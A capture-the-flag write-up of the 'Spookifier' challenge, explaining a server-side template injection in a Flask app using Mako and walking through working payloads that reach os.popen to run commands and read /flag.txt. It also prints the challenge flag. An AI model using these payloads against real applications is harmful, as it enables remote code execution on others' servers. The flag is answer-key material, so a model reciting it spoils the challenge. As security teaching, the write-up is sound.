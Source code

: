 ```yaml
---
title: "Spookifier"
summary: "Server-Side Template Injection vulnerability in flask application with Mako template system"
date: 2022-11-06T19:25:08+01:00
---
```


{{< attachements folder="files" pattern=".*\.zip$" >}}


# Spookifier

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?



# Information Gathering

## The application at-a-glance 🔍

Appication generate "SpooOOooOOooooooOookkkkkyyyyy" names from user input.

![Untitled](images/0.png)

![Untitled](images/1.png)

## Source code review

All source code was supplied but only relevant parts will be highlighted.

```python
#main.py
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')  # Here "text" is user input
    if(text):
        converted = spookify(text) # And is passed to spookify func without any sanityzation
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')a
```

In `main.py` file `text` parameter from URL is directly passed to `spookify` function without sanityzation. After function `spookify` return it is rendered as template. 

```python
def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)
```

`spookify` function calls `change_font` func and passed `text` parameter still no sanitization. After `change_font` return it is rendered and returned.

```python
def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts
```

Function `change_font` still do not sanitizate data.

# The Bug

Application lack sanitization. User input is directly passed to template engine allowing to SSTI (Server Side Template Injection) attack to happend.

# Exploitation

## Execution

Payload: `${self.module.cache.util.os.popen("cat+/flag.txt").read()}`

[Python context free payloads in Mako templates](https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/)

![Untitled](images/Untitled%202.png)

## Explanation

### Why this is even possible?

Application fully trust user to not supply any malicious input. By that do not validate input data. This allows attacker or any malicious actor to take advantage of running application.

### Payload

`${self.module.cache.util.os.popen("cat+/flag.txt").read()}`

To understand why code execute and why it looks slightly different from article mentioned earlier payload could be understand as:

- `self` this references module that legitimate code execute output of `${self}` is `<mako.runtime.TemplateNamespace object at 0x7f93963278b0>`
- `module` this is current loaded module `<module 'memory:0x7f93961eec70'>`
- `cache` is `mako` template function module `<module 'mako.cache' from '/usr/local/lib/python3.8/site-packages/mako/cache.py'>`
- `util` is another mako module and it is importig `os` module built-in python module allowing to execute shell commands
- `os` this allows to execute commands on system `<module 'os' from '/usr/local/lib/python3.8/os.py'>`

All those modules are imported like `self` importnig `module`, `module` importing cache etc. 

By this time payload looks something like `${self.module.cache.util.os}` which translate 

From module I currently execute code go to one of my imports `module` from that go to one of module imports named `cache` from `cache` go to his `util` imports, from that go to `os` import.

From that point there is possibility to use all functions from `os` built-in library.

For example `system()` so full payload looks: `${self.module.cache.util.os.system('id')}`

![Untitled](images/Untitled%203.png)

And it returned 0. Looks like root right? Not exactly.

If command is `whoami` it is still 0. Python system command return `exit code` not exactly of command output.

![Untitled](images/Untitled%204.png)

To read `stdout` of executed command `popen()` function need to be used.

With payload as: `${self.module.cache.util.os.popen('whoami')}`

We got something different `os object` 

`read()` function can be used to get output we want.

![Untitled](images/Untitled%205.png)

With payload as: `${self.module.cache.util.os.popen('whoami').read()}` 

![Untitled](images/Untitled%206.png)

In `Docker` file flag is copied to `/flag.txt`

 With paylaod as: `${self.module.cache.util.os.popen('cat+/flag.txt').read()}`

![Untitled](images/Untitled%207.png)

# Flag

`HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}`
